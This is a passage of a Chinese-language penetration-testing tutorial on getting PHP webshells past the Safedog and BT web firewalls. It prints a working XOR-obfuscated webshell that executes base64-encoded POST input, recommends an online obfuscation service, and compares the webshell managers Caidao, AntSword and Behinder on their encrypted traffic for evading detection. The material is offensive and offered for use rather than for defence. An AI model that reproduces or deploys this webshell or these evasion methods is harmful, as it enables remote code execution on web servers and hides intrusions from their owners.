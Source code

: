 WAF 依然绕过 safedog-

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQlKGk5kAOiay6URYnBicqEtBZOnicfgkpYhicfvcvG0TcWMCM8tiaR7J84icg%2F640%3Fwx_fmt%3Dpng)

利用:

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQ5icxOgxDrfZdZPxic8ovvM32HJm8ILVzdcKOZROiaP2fdexiamAQCYcnFg%2F640%3Fwx_fmt%3Dpng)

⑤借用在线 API 接口实现加密混淆

思路: 一旦上面的加密混淆过不了安全狗或者 BT 等其它防护工具时，可以借助网上在线 API 接口进行实现加密混淆

网址： http://phpjiami.com/phpjiami.html

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQyOicicH9uCph5APsoLGkS5pm1McCFKDNJtv8wspKLIn52Cyly8S3MDdQ%2F640%3Fwx_fmt%3Dpng)

⑥异或加密 Webshell-venom

思路： 同样也是进行混淆代码，只是与前面两者不同，该方法利用的是异或加密，不断随机的产生 不同的代码

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQ6z2baoCw28SKV2qYwabGdickG42nL3tXuibrpsMrCwRH1wFVHyZj7TFw%2F640%3Fwx_fmt%3Dpng)

生成代码如下： <?php class CEKF{ function \_\_destruct(){ $SPOE='gK$JP>'^"\\x6\\x38\\x57\\x2f\\x22\\x4a"; return @$SPOE("$this->ZDFP"); } }$cekf=new CEKF(); @$cekf->ZDFP=isset($\_GET\['id'\])?base64\_decode($\_POST\['mr6'\]):$\_POST\[' mr6'\]; ?>

利用：

通过简单观察代码可以发现存在三目运算符，所以当存在 id=1 时，就会使用 base64\_decode 解码操作，又因为有 WAF 的存在，不能直接传入敏感字段，所以在 mr6 就进行 base64 编码 形式

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQS2JPGuicPZWick8atdwtJ9Syricf0AdZPaSPxXSCONkWZsnLjiaiaG2ZNFA%2F640%3Fwx_fmt%3Dpng)

权限软件

菜刀，蚁剑，冰蝎优缺点 菜刀：未更新状态，无插件，单向加密传输 蚁剑：更新状态，有插件，拓展性强，单向加密传输 冰蝎：更新状态，未知插件，双向加密传输-

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQXG9ghico3iaSI28ibeibIRFXKFF1gictQibPt52sc2t6RZepO2uR1e3uyudw%2F640%3Fwx_fmt%3Dpng)

单双向加密传输的区别： 双向加密传输就是发包之前已经加密了，并且从服务器传回来的数据也是加 密的，这样在安全狗这些 WAF 检测内容的时候就狠 nice。

①菜刀单向加密示例：

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQIOrdtvxvAsmqrZt64lfd5KraRq2e9Z39zRvD8A7FqsfvaKCevbfIKg%2F640%3Fwx_fmt%3Dpng)

抓包分析菜刀执行操作时候的数据包，然后模拟提交，返回了目录列表。

②冰蝎双向加密示例：

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQJcGWOHk2qlqQwPweQ18x44QFvHJsdu3TKIIiaExgEqu5bL8nayViaaEQ%2F640%3Fwx_fmt%3Dpng)

双向加密。从而达到 WAF 也无法检测响应的数据包从而检测到敏感字段而拦截， 是相对其他工具来说较好的。

自己造轮子

因为像很多权限工具都被 WAF 所识别了相关特征（如菜刀、蚁剑、冰蝎等）， 会导致无法使用权限漏洞去控制相关内容，从而就需要我们通过写入相关函数从 而达到想要获取的目的

\# 显示当前目录下的内容： var\_dump(scandir('.'));
